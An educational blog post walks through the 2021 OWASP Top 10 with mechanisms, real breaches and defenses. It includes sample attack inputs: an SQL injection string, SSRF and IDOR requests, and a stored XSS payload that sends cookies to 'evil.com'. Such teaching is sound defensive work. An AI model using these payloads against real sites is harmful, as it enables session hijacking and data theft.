

# Introduction

**OWASP**, or the **Open Worldwide Application Security Project**, is a nonprofit foundation that works to improve the security of software. It is a community led open source project that focuses on software security. It provides unbiased, practical information about computer security and is best known for its **OWASP Top 10** list of the most critical web application security risks.

Founded in 2001 by Mark Curphey and Dennis Groves with the purpose to make application security visibile so that individuals and organizations can make informed decisions about true software risks. Along with their famous **OWASP Top 10** they have tools and projects such as **OWASP ZAP (Zed Attack Proxy)**, a free tool for finding security vulnerabilities in web apps, educational resources, confrences, and more.

In this post we will be going into detail on each of the **OWASP Top 10**. Detailing what it is, how it works, a real-world example, and the defense mechanisms you can put in place.


*Note: the OWASP Top 10 is consistently updated and imrpoved, we will be using the most up to date version of the list as of May 21, 2025 which is the 2021 OWASP Top 10.*

# 1. Broken Access Control

Refers to failures in enforcing restrictions on what authenticated users are allowed to do. Such as accessing resouces, performing actions, modifying data and more. As of 2021 some version of **Broken Access Control** was found in a shocking **94% of applications**.

To better understand **Broken Access Control**, we need to first understand **Access Control** which is the mechanism that determines who can access the system (authentication) and what they can see or do (authorization). **Access Control** includes role based permissions, object level permissions, and resource ownership and session context.

So when does **Broken Access Control** occur? Most often it is when restrictions are not properly enforced on the server sides and users can perform actions or access data they shouldn't be able to even if they are authenticated.

## How it Works (Mechanisms & Attacks)

**1. Insecure Direct Object Refrence (IDOR):**
- When users can directly access resources by modifying input values (like URL parameters) without proper checks.

**Example:**
```sh
GET /api/user/1234/profile
```
If you change 1234 to another user's ID and still gain access, the app suffers from IDOR.

**2. Missing Function Level Access Control**
- The application fails to restrict what functions users can call, such as admin only APIs.
**Example:**
```sh
POST /admin/deleteUser?id=555
```
If the server doesn't verify the user's role, this becomes an unauthorized function execution.

**3. Forced Browsing**
- Accessing hidden or unlinked resources without proper authorization checks.

**Example:**
A user finds `/admin/dashboard` by guessing the URL. If they can access it without being an admin, access control is broken.

**4. Privilege Escalation**
- A user modifies roles or permissions (via hidden fields, APIs, etc.) to gain more access.

**Example:**
A user submits a form with:
```json
"role": "admin"
```
And the server doesn't validate that users can't escalate their roles.

**5. Client Side Access Control**
- Relying on client-side code (JavaScript or HTML) to hide buttons or restrict actions, this is never secure.

Attackers can:
- Modify requests using tools like Burp Suite.
- Access restricted APIs directly.

## Real-World Example: Facebook IDOR Vulnerability (2019)

In 2019, researchers (and users) discovered that Facebook's mobile API exposed an IDOR (Insecure Direct Object Refrence) vulnerability allowing attackers to view private photos of other users by manipulation object IDs. This is a classic example of **Broken Access Control** and similar to what was shown in our first example.

## Defense Machanisms Against Broken Access Control
**1. Enforce All Authorization Checks Server Side**
- Never trust frontend/client side to protect resources
- Every API call or page access must be validated on the server (Do they have X role? Are they authenticated?)

**2. Use Role Based Access Control (RBAC)**

Define clear roles and assign permissions to each role, ensure you're always applying the minimum permissions per role (you can always add later). Check both role and ownership on sensitive actions like deleting data, changing settings, or viewing private resources. 

**3. Avoid Predicatable Resource Identifiers (Use UUIDs)**
- Don't expose incrementing IDs like `/user/1234`
- Use UUIDs or slugs that are hard to guess 

# 2. Cryptographic Failures

Also known as Sensitive Data Exposure, Cryptographic Failures refer to weaknesses in protecting sensitive data. This may be due to not using encryption, using outdated cryptography, improper key/secret management, etc.

Sensitive data includes things like Passwords, Credit Cards, Medical Data, Financial Data, API Keys & Tokens, Cookies, etc. If any fo this data is stored or transmitted insecurely, it be comes vulnerable to theft, tampering, identity fraud and more. 


## How it Works (Mechanisms & Attacks)

**1. No Encryption at All (Plaintext Data)**
- Storing sensitive data like passwords etc. without encryption or transmitting that data over HTTP instead of HTTPS. 
- This can lead to anyone intercepting the connection or accessing the database to see everything.

**2. Weak or Broked Hashing for Passwords**
- Using insecure hash algorithms like **MD5** or **SHA-1** for passwords.
- Not salting hashes to prevent rainbow table attacks.

**3. Reversible Encryption**
- Encrypting passwords instead of hashing them. If the key is leaked, all passwords can be decrypted.

Encryption is meant for data you need to retrieve, not for passwords. Passwords should be hashed and salted, not encrypted.

**4. Poor Key Management**
- Hardcoding encryption keys or secrets in source code.
- Storing secrets in version control (e.g., GitHub leaks).
- Using weak or guessable encryption keys.

**5. Not Encrypting Sensitive Fields at Rest**
- Leaving sensitive fields like credit card numbers or health data unencrypted in your database.

If your DB is breached, there is no second layer of defense and the attacker has access to everything in plain text.

## Real World Example: Equifax Data Breach (2017)

Equifax is one of the three major credit reporting agencies in the U.S., holding massive amounts of highly sensitive consumer data (SSNs, DoB, Addresses, etc).

In March 2017 Apache Struts (web framework used by Equifax) disclosed a critical vulnerability (CVE-2017-5638). Equifax failed to patch the vulnerability and attackers exploited it and were undetected for months with ~150M consumers affected.

## Defense Machanisms Against Cryptographic Failures

**1. Encrypt Sensitive Data in Transit and at Rest**

*Transit:*
- Use HTTPS/TLS 1.2+ for all communications. 
- Enforce HSTS (HTTP Strict Transport Security) to prevent protocol downgrade attacks.
- Use strong cipher suites (e.g., AES-GCM, ECDHE for forward secrecy).

*Rest:*
- Encrypt databases, backups, logs, and cloud storage containing sensitive data.
- Use AES-256 (GCM mode) or ChaCha20-Poly1305 for modern, authenticated encryption.

**2.Secure Key and Secret Management**

Never hardcode secrets into source code or config files. Use secret management system and have minimal secret access permissions.

**3. Use Strong Hashing Algorithms for Passwords**

Passwords should never be encrypted. They should be hashed using one-way, slow, salted algorithms.

- Some recommended algortihms include: `bcrypt`, `argon2id`, `scrypt`. 
- Avoid algorithms like: `MD5`, `SHA-1`, *unslated or fast hashes*.

**4. Use Authenticated Encryption**

Authenticated encryption ensures confidentiality, integrity, and authenticity of data.

Use encryption algorithms like: `AES-GCM`, `ChaCha20-Poly1305`, `AEAD`
Avoid encryption algorithms like: `AES-ECB mode` or Constant/reused IVs 

# 3. Injection

Injection is the class of vulnerabilities where untrusted input is sent to an interpreter, causing that interpreter to execute unintended commands or queries.


## How it Works (Mechanisms & Attacks)

**1. SQL Injection (SQLi)**

Malicious input modifies a SQL query to ready, modify, or delete data from a database.

*Example:*
```sql
SELECT * FROM users WHERE username = '$input';
```

If `$input = ' OR 1=1 --`

Then it becomes:
```sql
SELECT * FROM users WHERE username = '' OR 1=1 --';
```
Allows admin login and authentication bypass.

**2. Command Injection**

- Input is executed as part of a system shell comand


**3. HTML/JS Injection (aka XSS - Cross Site Scripting)**

XSS is a vulnerability that allows an attacker to inject malicious scripts (usually JavaScript) into content that other users will view.

When a victim visits the page, their browser executes the attacker's script as it came from the trusted site allowing the attacker to steal data, manipluate the page or hijack sessions.

*XSS targets users, not the server — but it exploits server-side input handling mistakes.*

Within XSS there is various types such as:

**Stored XSS (Persistent)**

Malicious script is permanently stored on the server (e.g. in a DB, blog comment, profile field)

*Example:*
```html
<script>fetch('http://evil.com/steal?c=' + document.cookie)</script>
```
If this is stored in a blog comment and shown to other users, every viewer runs the script.

**Reflected XSS (Non-Persistent)**

Malicious script is injected via the URL or request and reflected back in the response.

**DOM Based XSS**

The vulnerability exists in client side JavaScript. The page dynamically inserts untrusted data into the DOM without proper sanitization.

**4. LDAP, OS, NoSQL Injection**

Various other injection techniques for altering LDAP queries, System level commands or JSON based queries.

## Real World Example: LinkedIn (2012)

In 2012, attackers exploited SQL Injection vulnerabilities in LinkedIn’s web application to access their user database. Once inside, they dumped millions of user credentials.

In 2016 security researchers discovered that 117 million (previously thought to be 6.5M) complete LinkedIn login credentials were actually stolen in the 2012 breach and had been quietly circulating and sold on the dark web for years.

A mix of SQLi vulnerability and weak password hashing lead to millions of passwords and users being affected.

## Defense Machanisms Against Injection

**1. Use Parameterized Queries**

Parameterized queries separate data from code. This is the single most effective way to prevent SQL Injection.

Instead of dynamically building SQL with strings, you pass the SQL structure and the parameters separately.

*Good:*
```py
cursor.execute("SELECT * FROM users WHERE username = %s", (username,))
```

*Bad:*
```py
cursor.execute("SELECT * FROM users WHERE username = '" + username + "'")
```

**2. Whitelist Input Validation**

Validate user input before processing it. If you know what to expect (e.g., numeric ID, email), enforce it.

*Example:*
```py
# Numeric ID
if not user_id.isdigit():
    raise ValueError("Invalid ID")

# Email format
import re
if not re.match(r"^[\w\.-]+@[\w\.-]+\.\w+$", email):
    raise ValueError("Invalid email")
```
*Prefer whitelisting (accept known good input) over blacklisting.*

**3. Escape Untrusted Data for the Right Context**

If you must insert user input into: HTML, JS, SQL , Shell commands, than you need to escape it based on the context to neutralize characters that would break syntax.

# 4. Insecure Design
Unlike specific bugs like XSS or SQLi, **Insecure Design** is about flaws in the system's architecture or logic that exposes the application to risk (even if the code itself is bug free).

**Insecure Design** refers to flawed security decisions made during the planning and architectural phase of a system, product, or feature, leading to a system that is vulnerable.

*Secure code ≠ secure system*

## Common Examples of Insecure Design

**1. Missing or Weak Authorization Logic**

- Design makes assumptions that the user will behave correctly. Not following best practices like RBAC, UUID's, etc.

**2. Permissive Features and Insecure Defaults**

*Add everything now, secure it later.*

Exposing internal APIs, admin panels, default max permissions, public data sharing by default, etc.

**3. Lack of Secure Design Patterns**

No rate limitting, password rest, 2FA, input validation, output encoding, and much more are either all missing or some are.

## Real Life Example: Twitter API (2022)

Twitter allowed users to upload email addresses and phone numbers to check for associated accounts. The design didn't limit abuse, allowing attackers to scrape millions of user records by automating this process.

*There was no “bug”, the API worked exactly as designed. The design itself was flawed because it lacked abuse controls.*

## Preventing Insecure Design

To defend against Insecure Design, start with threat modeling. Think like an attacker before writing any code by identifying potential abuse cases and attack paths. 
Adopt a Secure Software Development Lifecycle (SSDLC) by embedding security requirements, architecture reviews, and expert input early in the process. Use secure design principles like least privilege, defense in depth, and fail securely to reduce risk at a systemic level. 
Validate business logic to ensure workflows can’t be abused or bypassed, and assess each feature for abuse and misuse cases to anticipate real world exploitation. 
Finally, conduct regular architecture reviews with internal teams or red teamers to identify flawed assumptions and improve design resilience.

# 5. Security Misconfiguration

Security Misconfiguration refers to incorrect or suboptimal settings in software, services, infrastructure, or components that expose systems to exploitation. 

*Very similar to Insecure Design - not going to go into much detail*

## Real-World Examples: Capital One (2019)

AWS S3 misconfiguration + WAF vulnerability led to 100M+ customer records leaked. Attacker exploited open metadata services and overly broad IAM permissions

## Preventing Security Misconfiguration

To prevent security misconfigurations, start by hardening all environments: disable unnecessary services, remove default credentials, and eliminate unused apps or debugging tools. 
Always use secure defaults by selecting frameworks and tools that minimize exposure out of the box. 
Patch and update systems regularly, including web servers, frameworks, and databases. (ideally automating updates with tools like Ansible or Terraform). 
Limit exposure by applying least privilege principles, restricting access by IP, and disabling default ports or APIs in production. 
Set strong security headers (like CSP and HSTS) to enforce safe browser behavior. Regularly scan and audit configurations using tools like OWASP ZAP, Nessus, or ScoutSuite. 

# 6. Vulnerable and Outdated Components 

Refers to libraries, frameworks, platforms, dependencies, and more that contain known security vulnerabilities or are no longer supprted with security updates.

*If you build on insecure or outdated code, your app becomes insecure. Even if your own code is perfect.*

## Real-World Examples: Equifax Breach (2017)

Used a vulnerable version of **Apache Struts** although a patch was released 2 months earlier. Resulted in the breach of 147 million personal records.

## Defense Against Vulnerable & Outdated Components

**1. Maintain a Software Bill of Materials (BOM)**

Always know what libraries and software you are running and consistently keep up to date with news and information regarding each piece of software.

**2. Dependency and Vulnerability Scanners**

Use tools that check your dependencies against known vulnerabilities such as `OWASP Dependency-Check`, `npm audit`, `pip-audit`, and more. You can set up CI/CD alerts to auto patch workflows where possible.

**3. Monitor Security News and CVE Feeds**

Subscribe to vulnerability databases like `CVE Details`, `NVD`, `Exploit-DB`, as well as keep up with the news and any cyber security breaches or attacks. Also be sure to note any framework or dependency release notes regarding security.

# 7. Identification and Authentication Failures 

This category of vulnerabilities refers to weaknesses in how applications **identify users (auth)**, **manage sessions**, and **protect credentials.**

*Previously called Broken Authentication, this category now more broadly includes: poor cred handling, session hijaking, insecure login flows, missing authentication checks.*



## Real-World Example: GitHub (2022)

Credential stuffing attack succeeded against developers reusing passwords. A credential stuffing attack is when an attacker inserts stolen usernames and passwords into the system's login fields to acheice an accounting takeover (ATO). This was due to lack of MFA and insufficient detection logic.

## Preventing Identification and Authentication Failures 

**1. Enforce Strong Authentication**

Require strong passwords and utilize **Multi-Factor Authentication (MFA)** whereever possible, especially for admin accounts.

**2. Secure Password Storage**

Never store passwords in plaintext. Always use modern, slow, salted hashing algorithms like `bcrypt`, `argon2`, `scrypt` applying a unqiue salt per user.

**3. Protect Login & Authentication Endpoints**

Implement rate limiting, lockouts, or CAPTCHA after several failed login attempts and don't reveal whether a username or email is valid.

# 8. Software and Data Integrity Failures

Occurs when an application does not verify the integrity or authenticity of Software updates, packages, config fules, CI/CD pipelines, etc.

**It boils down to trusting something without checking if it has been tampered with.**

Attackers can inject malicious code into unsigned or unverified software as well as alter config files, scripts or implement fake packages.

## Real-World Example: SolarWinds Supply Chain Attack (2020)

In 2020, hackers gained access to SolarWinds internal network most likely by **Phishing** or **Compromised Credentials** and once inside planted a malicious file in the codebase. The update was digitally signed and delivered to ~18,000 customers including government and companies.

## Preventing Software and Data Integrity Failures

To defend against these types of attacks, it's important to verify the integrity and authenticity of all software components, scripts, and configurations. Use digital signatures, checksums, and code signing to ensure updates and packages haven’t been tampered with. Employ trusted repositories and pin dependencies to known versions. In CI/CD pipelines, limit access with least privilege, monitor for changes to build scripts, and enforce strict approvals before deployments. Regularly audit dependencies for known vulnerabilities and avoid using third-party code from untrusted or unverifiable sources.

# 9. Security Logging and Monitoring Failures

Security Logging and Monitoring Failures occur when an application doesn’t log important security events, fails to monitor those logs, or doesn’t respond to suspicious activity in a timely manner. These failures allow attackers to operate inside systems undetected, escalate their privileges, extract data, or even destroy systems without being noticed.

## Real-World Example: Equifax Breach (2017)

One of the contributing factors in the Equifax breach was poor logging and detection. After attackers exploited a known vulnerability in **Apache Struts** to access sensitive data, it took Equifax **76 days** to notice due to failures in proper logging and alerting. Over 140 million records were compromised. Timely detection could have reduced the damage.

## Best Logging and Monitoring Practices

Most of these are pretty self explanatory so I am going to list them out.

- Centralized Logging
- Security Events Monitoring & Logging
- Real Time Alerts
- Log Protection

# 10. Server-Side Request Forgery (SSRF)

**Server-Side Request Forgery (SSRF)** is a vulnerability that allows an attacker to make the server send HTTP or other protocol requests on behalf of the attacker to arbitrary locations, both internally and externally.

This could lead to bypassing firewalls, stealing metadata, acessing internal services and more.

SSRD vulnerabilities occur when a web application fetches external resources based on user input and the application doesn't validate or sanitize the user supplied URL.


**Example**

Imagine a URL like this:
```json
POST /fetch-url
Body: { "url": "http://example.com/image.jpg" }
```

If the backend blindly requests this URL, an attacker could change it to:
```json
POST /fetch-url
Body: { "url": "http://localhost:8080/admin" }
```

## Real-World Example: Capital One Breach (2019)

In one of the most infamous cloud related breaches, an SSRF vulnerability in AWS WAF (Web Application Firewall) was exploited by an attacker to access AWS EC2 metadata. From there, the attacker retrieved IAM role credentials, which were then used to access customer data in an Amazon S3 bucket.

This breach affected over 100 million customers and highlighted how a simple SSRF bug could escalate into a full blown data breach.

## Preventing SSRF

**1. Whitelist Valid URLs**

Only allow requests to specific trusted domains and avoid allowing arbitrary URLs passed by users.

**2. Block Internal IP Ranges**

Prevent acess to private IP ranges like 127.0.0.1, localhost, 169.254.169.254 (AWS metadata), 10.0.0.0/8, 192.168.0.0/16, etc.

**3. Validate and Sanitize User Input**

Ensure that the input isn't just any URL but that it follows strict validation requurements and screening completion.

# Reflection and Conclusion

After breaking down each vulnerability from the **OWASP Top 10**, one thing becomes clear. Many of these risks stem from similar underlying issues. Patterns emerge, and with those patterns there are actionable things you can do. 

- Monitor & Log Effectively 
- Limit Permissions, IAM Roles, and Access Controls 
- Always sanitize and validate user input 
- Strong authentication and MFA is key to account security
- Minimize network permissions and internal access
- Always encrypt, salt, hash, etc. when nessacery
- Keep dependencies, packages, software, etc. up to date
- Stay in tune with security news and monitor CVE's
- Keep critical logic and checks server side 

While these tips are general they can server as a rough guideline to follow when building projects that don't just protect against one specific exploit, but protect against a wide range of vulnerabilities.

From what I've learned so far in my time studying Cyber Security it seems that it is less about perfection and more about awareness, habit, and consistency.